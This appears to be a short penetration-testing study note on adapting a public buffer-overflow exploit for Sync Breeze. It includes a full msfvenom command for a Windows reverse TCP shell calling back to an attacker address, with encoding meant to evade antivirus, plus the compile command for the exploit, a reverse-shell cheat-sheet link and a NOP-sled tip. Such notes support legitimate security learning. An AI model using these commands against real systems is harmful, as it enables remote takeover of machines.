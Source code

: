 # fixing exploit (memory issue)
- Generate new shell code
    
    -p windows/shell_reverse_tcp: This specifies the payload to use, in this case a Windows reverse TCP shell. This payload will cause the target system to connect back to the attacker's system and provide a command shell.

    EXITFUNC=thread: This specifies the exit function to use when the shellcode is executed. The "thread" option causes the shellcode to exit by terminating the current thread, rather than the entire process.

    -f c: This specifies the output format for the shellcode, in this case C code.

    -e x86/shikata_ga_nai: This specifies the encoder to use for the shellcode, in this case the "shikata_ga_nai" encoder. This encoder is used to obfuscate the shellcode and make it more difficult to detect by antivirus software.

    -b "\x00\x0a\x0d\x25\x26\x2b\x3d": This specifies a list of bad characters to avoid in the shellcode. These characters are often used in string termination or other special functions, and can cause problems if they are included in the shellcode.

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

```
- compile c to exe
  -lws2_32 means using library ws2_32
``` i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32 ```

# Staged vs stageless shellcode
- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-staged-reverse-tcp 

# Buffer Overflow
- NOP Slide is the king (sometime) dont accidently remove it when replacing shellcode
  ``` "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" ```